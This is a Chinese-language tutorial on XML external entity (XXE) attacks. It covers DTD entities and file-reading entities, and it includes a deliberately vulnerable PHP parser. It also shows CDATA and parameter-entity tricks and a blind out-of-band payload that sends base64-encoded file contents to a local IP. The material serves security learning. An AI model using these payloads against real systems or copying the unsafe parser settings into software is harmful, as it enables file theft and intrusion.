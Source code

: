 # XXE

## 基本的XML结构：

```
<?xml version="1.0" encoding="utf-8"?>			
<!DOCTYPE name [
	<!ELEMENT thing ANY>
	<!ENTITY arg "value">
]>
<thing>
	&arg;
</thing>
```

第一行表示这个一个XML。

第二-第四行是DTD，即文档约束，定义这个XML文档的一些结构啊属性啊实体啊什么的。这个ELEMENT表示body中的元素标签的名字，这里指定名字为thing，ANY表示接受任何元素。真正用的时候，可以不写ELEMENT也一样可以用XML。

在XXE中对于我们来说最有用的就是实体ENTITY。实体就像是在XML里的变量。上面就是定义了一个名为arg值为value的实体。

后面就是XML的body了。需要一个标签括起来，标签名就写上面ELEMENT定义的名字，如果上面没写，这里写啥都行。然后&arg;就是引用了实体arg。类似于用变量一样。

php解析XML的简单代码：

```
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

测试，将我们写的XXE发过去，可以看到直接输出了内容，这在XXE攻击里面叫“有回显的XXE”：

![](./xxe/1.png)



## 实体读取文件

上面的实体只是存了一个字符串，其实可以读取文件的，只需要加多一个 SYSTEM关键字，表示读取文件：

```
<!ENTITY arg SYSTEM "C:/flag.txt">
```

![](./xxe/2.png)

但是如果文件中有标签就么得了，比如文件内容为：

![](./xxe/3.png)

![](./xxe/4.png)

这是因为，在XML中引用进来的文件是会被解析的，我们读取的文件有标签，就会被解析器解析，解析完后发现这个XML格式不对劲，就会报错。

## CDATA的使用

好在我们有神器 CDATA ，加入了这个的话，就会告诉解析器里面的内容不需要解析：

```
<![CDATA[
	<one>a
	<two>b
]]>
```

![](./xxe/5.png)

既然如此，实体在body里会被解析，那我们读取文件的时候，拼接起来不就好了嘛，就像这样：

![](./xxe/6.png)

可惜现实给了我们一个大嘴巴子：

![](./xxe/7.png)

这是因为，在XML中，不能在一个XML中进行拼接，要拼接的话需要在另一个XML中拼接，拼完后再在原来的XML中进行调用，这个方式叫做引用其他实体。要是没看懂，先大概知道，继续往下看即可。

但是不是什么实体都可以引用外部实体的，这里引出一个参数实体的概念，参数实体可以引用别的实体，只能在DTD用，就是不能在body用。

## 参数实体与CDATA

参数实体格式（就是比普通的实体多了一个 % ）：

```
<!ENTITY % 名字 "值">
```

没看懂的话就看下面的图：

（1）参数实体只能在DTD中使用：

![](./xxe/8.png)

（2）参数实体可以拼接实体，由于XML的特性，只能在另一个XML中进行拼接，拼好了原XML再用参数实体拉过来：

![](./xxe/9.png)

其中 e.dtd 的内容还挺好理解。burp中第7行是将e.dtd的内容拉过来，但是拉过来是要执行的，所有第8行的 %out; 就是为了执行拉过来的e.dtd的内容。这样子我们就可以完成拼接了。

将拼接内容改成“CDATA”试试：

![](/home/xiaopan/xiaopan-wiki/doc-wiki/XXE/xxe/10.png)



## Blind OOB XXE

即无回显的XXE，这种很常见，比较解析XML一般也不是直接呈现给用户的。

XML实体中，SYSTEM也可以发起请求：

 ![](./xxe/11.png)

我们来尝试读取flag.txt文件，这里由于是在url中的get请求，如果读取文件有回车换行什么的会报错。所以用php为协议将其base64编码一下。就不会有这些奇怪问题。（上面的好像也可以用base64编码来解决）

![](./xxe/12.png)

发现报错了。。这。。。

%content;没有被正确解析，除非我们再嵌套一个 ENTITY 进去，才可以解析：

```
<!ENTITY % out "<!ENTITY % go SYSTEM 'http://192.168.0.105?id=%content;'>">
```

![](./xxe/13.png)

这里又报错了，说的是实体里的值，不能有 % 这个符号，不过我们可以利用HTML实体化编码，XML也能识别：

```
<!ENTITY % out "<!ENTITY &#37; go SYSTEM 'http://192.168.0.105?id=%content;'>">
```

![](./xxe/14.png)

这里报的错是不能在一个XML里拼接实体，我们把它放到另一个XML里然后SYSTEM拉过来即可：

![](./xxe/15.png)